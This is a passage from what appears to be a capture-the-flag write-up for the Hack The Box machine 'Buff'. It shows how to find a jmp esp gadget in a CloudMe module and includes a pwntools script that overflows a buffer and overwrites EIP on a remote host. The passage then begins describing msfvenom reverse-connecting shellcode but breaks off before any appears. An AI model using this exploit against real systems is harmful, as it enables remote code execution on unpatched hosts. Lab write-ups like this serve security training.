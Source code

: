 ```java
 0x6aa80000      0x1410          0x1b7000    False      False      False      False      False      5.9.0.0;C:\Users\user\Desktop\CloudMe\CloudMe\platforms\qwindows.dll 
 ```

I'll be using the first module, first I go to symbols and click on the selected module
![Desktop View](/assets/img/htb/buff/module_1.png)

I right click on the start address and copy the value 

![Desktop View](/assets/img/htb/buff/copy_start_address.png)

I click on the References tab

![Desktop View](/assets/img/htb/buff/references_tab.png)

On the command prompt I type `findall 00401000,ffe4` looking for a jmp esp address in its hexadecimal form which is FF E4

![Desktop View](/assets/img/htb/buff/findall_1.png)

and I can use any of these instructions 


![Desktop View](/assets/img/htb/buff/instructions_1.png)


I add those instructions to the script in the eip variable.

```python
from pwn import *

context(arch="i386",os="linux")

def exploit():
    
    buffer = b"\x55" * 1052
    
    eip = p32(0x0040D7ED)
    
    payload = buffer + eip

    conn = remote(host,port)
    conn.sendline(payload)
    conn.close()
    print("[+] Payload sent")
    
if __name__ == '__main__':
    exploit()    

```


#### creating shellcode

I create a shellcode with msfvenom removing the badchars and configured to connect to my vboxnet0 interface ip (192.168.56.1) which is where I am debugging.
